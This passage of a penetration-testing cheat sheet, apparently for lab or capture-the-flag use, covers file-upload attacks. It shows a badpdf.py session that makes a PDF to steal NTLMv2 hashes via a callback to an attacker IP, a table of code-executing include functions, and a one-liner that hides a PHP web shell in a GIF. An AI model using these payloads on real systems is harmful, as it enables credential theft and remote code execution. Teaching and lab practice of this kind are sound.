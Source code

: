 ### PDFs

For Windows targets, we can create and upload a malicious PDF file and attempt to steal the user's NTMLv2 hash using [`badpdf.py`](https://github.com/deepzec/Bad-Pdf):

{% code overflow="wrap" %}
```bash
$ sudo python2 badpdf.py                                                                                                                                                                                                                   

Responder detected :/usr/sbin/responder
Please enter Bad-PDF host IP: 
10.10.14.2
Please enter output file name: 
malicious.pdf
Please enter the interface name to listen(Default eth0): 
tun0
[*] Starting Process.. [*]
Bad PDF malicious.pdf created
```
{% endcode %}

## RCE

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, **regardless of the file extension or type**. The file upload form does not need to be vulnerable, just allowing file uploads.

<table><thead><tr><th width="299">Function</th><th align="center">Read Content</th><th align="center">Execute</th><th align="center">Remote URL</th></tr></thead><tbody><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>NodeJS</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>res.render()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>

### Image

We can create a malicious image containing PHP code, using an allowed image extension (_bypassing extension filters_), in this case `.gif`,and including the image's [magic bytes](file-uploads.md#server-side-filters) at the beginning of the file content (`GIF8`) (_bypassing content type filters_).

```bash
# Creating a malicious GIF file
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

